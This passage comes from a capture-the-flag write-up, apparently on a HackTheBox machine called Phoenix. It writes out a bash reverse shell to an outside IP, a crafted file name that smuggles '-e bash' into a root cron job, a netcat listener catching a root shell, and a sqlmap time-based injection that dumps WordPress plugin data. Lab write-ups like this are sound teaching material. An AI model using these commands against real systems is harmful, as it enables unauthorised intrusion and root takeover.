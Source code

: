 `--` tells the command that anything after is not an argument, so it creates that file name.

Putting that all on one line and running it creates both files:

```

editor@phoenix:/backups$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh; touch -- '-e bash 0xdf.sh'
editor@phoenix:/backups$ ls -la
total 3632
drwxr-x---  2 editor editor   4096 Feb 16 23:02  .
drwxr-xr-x 21 root   root     4096 Jan 26 05:29  ..
-rw-rw-r--  1 editor editor     53 Feb 16 23:02  .0xdf.sh
-rw-rw-r--  1 editor editor      0 Feb 16 23:02 '-e bash .0xdf.sh'
...[snip]...

```

The next time the cron runs (every three minutes), I get a reverse shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.149 35844
bash: cannot set terminal process group (3403): Inappropriate ioctl for device
bash: no job control in this shell
root@phoenix:/backups#

```

And after a quick shell upgrade, I can grab `root.txt`:

```

root@phoenix:~# cat root.txt
5047bc59************************

```

## Beyond Root - Alternative Path

The entire foothold step for this box relies on getting into WordPress so that I can see the vulnerable plugin and use it to get RCE. And while the intended path is to use the SQL injection to get the credentials and secrets necessary to log in, it’s also possible to just read the plugins list from the database:

```

oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_options -C option_value --where "option_name = '
active_plugins'" --dump --batch
...[snip]...
Database: wordpress
Table: wp_options
[1 entry]
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| option_value|
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```